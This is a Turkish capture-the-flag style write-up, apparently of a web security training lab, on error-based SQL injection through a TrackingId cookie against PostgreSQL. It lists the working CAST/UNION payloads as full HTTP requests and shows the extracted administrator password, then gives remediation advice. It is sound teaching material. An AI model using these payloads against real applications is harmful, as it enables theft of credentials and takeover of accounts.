






# Visible error-based SQL injection

## 1. Lab Bilgisi

**Difficulty:** Practitioner

## 2. Vulnerability Özeti

Bu labda `TrackingId` cookie değeri SQL sorgusuna güvenli şekilde eklenmediği için SQL injection yapılabiliyordu. Uygulama veritabanı hatalarını response içinde görünür şekilde döndürdüğü için hata mesajları veri sızdırmak amacıyla kullanılabiliyordu.

Amaç, PostgreSQL hata mesajlarını kullanarak `administrator` kullanıcısının parolasını elde etmek ve hesaba giriş yapmaktı.

## 3. Exploitation Steps

1. Burp Suite ile `/login` isteğini yakaladım ve `TrackingId` cookie değeri üzerinde SQL injection testi yaptım. İlk olarak `UNION SELECT NULL` payload'ı ile sorguya müdahale edilebildiğini kontrol ettim.

```sql
'+UNION+SELECT+NULL--
```

Response içinde lab sayfası döndü ve `TrackingId` değerinin SQL sorgusuna dahil edildiği doğrulandı.



2. Veritabanı şemasını anlamak için `information_schema.tables` üzerinden tablo adlarını çekmeyi denedim.

```sql
'+UNION+SELECT+table_name+FROM+information_schema.tables--
```

Bu denemede uygulama SQL hatasını response içinde açıkça gösterdi. Böylece görünür hata mesajlarının exploit sürecinde oracle olarak kullanılabileceği anlaşıldı.



3. Hata mesajı üzerinden veri sızdırmak için PostgreSQL `CAST` fonksiyonunu kullandım. Önce `users` tablosundan `username` değerini alıp integer'a çevirmeyi denedim.

```sql
'+AND+1=CAST((SELECT+username+FROM+users)+AS+int)--
```

Sorgu birden fazla satır döndürdüğü için response içinde `more than one row returned by a subquery used as an expression` hatası alındı.



4. Alt sorgunun tek satır döndürmesi için `LIMIT 1` ekledim.

```sql
'+AND+1=CAST((SELECT+username+FROM+users+LIMIT+1)+AS+int)--
```

Bu kez veritabanı `administrator` değerini integer'a çevirmeye çalıştı ve hata mesajında kullanıcı adı açıkça göründü.



5. Aynı tekniği `password` kolonu için uyguladım.

```sql
'+AND+1=CAST((SELECT+password+FROM+users+LIMIT+1)+AS+int)--
```

Response içindeki PostgreSQL hata mesajında `administrator` kullanıcısının parolası göründü.

```text
9xb45rd0mvb3o0guk403
```



6. Elde ettiğim parola ile `administrator` hesabına giriş yaptım ve labı tamamladım.



## 4. Kullanılan Payloadlar

- Sorguya `UNION SELECT` ile müdahale edilebildiğini test etmek için:

```http
GET /login HTTP/2
Cookie: TrackingId=<tracking-id>'+UNION+SELECT+NULL--; session=<session-id>
```

- Tablo adlarını sorgulamayı denemek için:

```http
GET /login HTTP/2
Cookie: TrackingId=<tracking-id>'+UNION+SELECT+table_name+FROM+information_schema.tables--; session=<session-id>
```

- `username` değerini görünür hata mesajına düşürmek için:

```http
GET /login HTTP/2
Cookie: TrackingId=<tracking-id>'+AND+1=CAST((SELECT+username+FROM+users+LIMIT+1)+AS+int)--; session=<session-id>
```

- `password` değerini görünür hata mesajına düşürmek için:

```http
GET /login HTTP/2
Cookie: TrackingId=<tracking-id>'+AND+1=CAST((SELECT+password+FROM+users+LIMIT+1)+AS+int)--; session=<session-id>
```

## 5. Sonuç

- `TrackingId` cookie değerinin SQL sorgusuna dahil edildiğini tespit ettim.
- Uygulamanın SQL hata mesajlarını response içinde görünür şekilde döndürdüğünü doğruladım.
- PostgreSQL `CAST` hatası kullanarak sorgu sonucundaki string değerleri hata mesajına yansıttım.
- `LIMIT 1` ile alt sorgunun tek satır döndürmesini sağlayarak `administrator` kullanıcı adını ve parolasını elde ettim.
- Elde edilen parola ile `administrator` hesabına giriş yaparak labı tamamladım.

## 6. Etki

Bu zafiyet, saldırganın veritabanı hatalarını kullanarak hassas verileri doğrudan response içinde görmesine neden olabilir. Hata mesajları yeterince ayrıntılı döndürüldüğünde kullanıcı adları, parolalar ve diğer kritik veriler uygulama arayüzünden sızdırılabilir.

## 7. Çözüm

- SQL sorgularında parametreli/prepared statement kullan.
- Cookie ve header değerleri dahil tüm kullanıcı girdilerini güvenilmeyen veri olarak ele al.
- Kullanıcı girdilerini SQL sorgusuna doğrudan ekleme.
- Production ortamında ayrıntılı veritabanı hata mesajlarını kullanıcıya gösterme.
- Hata yönetimini merkezi ve güvenli şekilde yapılandır.
- Veritabanı kullanıcısına minimum yetki ver.
- Parolaları düz metin olarak saklama; güçlü, yavaş ve tuzlu hash algoritmaları kullan.
